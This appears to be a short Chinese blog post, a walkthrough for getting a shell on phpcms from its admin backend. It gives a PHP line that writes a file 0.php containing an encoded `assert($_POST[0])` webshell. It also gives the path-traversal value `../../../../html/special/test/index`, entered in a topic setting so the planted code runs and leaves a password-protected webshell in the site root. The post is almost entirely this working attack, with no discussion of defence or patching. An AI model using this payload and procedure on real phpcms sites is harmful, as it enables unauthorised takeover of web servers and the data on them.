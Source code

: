 ```yaml
---
title: "phpcms 后台 getshell"
date: 2018-02-02T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phpcms 后台 getshell

<!--more-->

内容 - 专题 - 添加专题

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464754.jpg)

专题导读

`<?php file_put_contents('0.php',base64_decode('PD9waHAgYXNzZXJ0KCRfUE9TVFswXSk7Pz4=')); ?>`

保存

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464902.jpg)

再添加专题 扩展设置

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464938.jpg)

F12 定位 专题首页

value 要与之前添加的专题名对应

`../../../../html/special/test/index`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465015.jpg)

保存 网站根目录下生成 0.php 密码 0

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465041.jpg)